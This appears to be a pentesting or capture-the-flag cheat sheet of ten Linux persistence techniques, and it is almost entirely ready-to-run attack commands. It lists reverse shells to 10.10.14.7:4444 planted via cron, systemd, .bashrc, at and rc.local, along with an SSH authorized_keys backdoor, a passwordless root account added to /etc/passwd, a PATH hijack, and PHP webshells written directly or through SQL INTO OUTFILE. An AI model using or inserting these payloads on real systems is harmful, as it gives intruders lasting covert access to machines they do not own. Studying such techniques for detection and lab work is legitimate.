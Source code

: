 #  Persistence Payloads

## 1\. **Cronjob Reverse Shell**

Add to crontab (user or root):

`echo '* * * * * /bin/bash -c "bash -i >& /dev/tcp/10.10.14.7/4444 0>&1"' > /tmp/c crontab /tmp/c`

Every minute you’ll get a shell back.

* * *

## 2\. **SSH Key Persistence**

If you have write access to `~/.ssh/authorized_keys`:

`mkdir -p ~/.ssh echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIYOUROPENSSHKEY" >> ~/.ssh/authorized_keys chmod 700 ~/.ssh chmod 600 ~/.ssh/authorized_keys`

Now you can SSH in at will.

* * *

## 3\. **Service / Systemd Hijack**

If you can edit a service file:

`echo '[Service] ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.10.14.7/4444 0>&1" ' > /etc/systemd/system/fakesvc.service systemctl enable fakesvc systemctl start fakesvc`

Runs as root on boot if systemd is in use.

* * *

## 4\. **/etc/passwd Backdoor**

Add a new root user with no password (very easy to catch, but classic CTF trick):

`echo 'hax0r::0:0:root:/root:/bin/bash' >> /etc/passwd su hax0r`

* * *

## 5\. **Bashrc / Profile Persistence**

Append reverse shell to `.bashrc` (executes every time the user spawns a shell):

`echo 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1' >> ~/.bashrc`

* * *

## 6\. **Scheduled Task (at)**

One-off reverse shell via `at`:

`echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1'" | at now + 1 minute`

* * *

## 7\. **Replacing Binaries (PATH Hijack)**

If a root cron/script calls `tar`, `cp`, or `ls` without absolute path, drop your own version first in `$PATH`:

`echo '/bin/bash -p' > /tmp/tar chmod +x /tmp/tar export PATH=/tmp:$PATH`

* * *

## 8\. **PHP Webshell Persistence**

If you can write to the web root:

`<?php system($_GET['cmd']); ?>`

Save as `backdoor.php`, then call:
`http://target/backdoor.php?cmd=id`

* * *

## 9\. **Startup Script Injection**

Add your payload to `/etc/rc.local`:

`echo "bash -i >& /dev/tcp/10.10.14.7/4444 0>&1" >> /etc/rc.local chmod +x /etc/rc.local`

Executes every boot.

* * *

## 10\. **Database User Abuse**

If you compromise DB creds, create a user with file privileges to write a webshell to the webroot:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';`
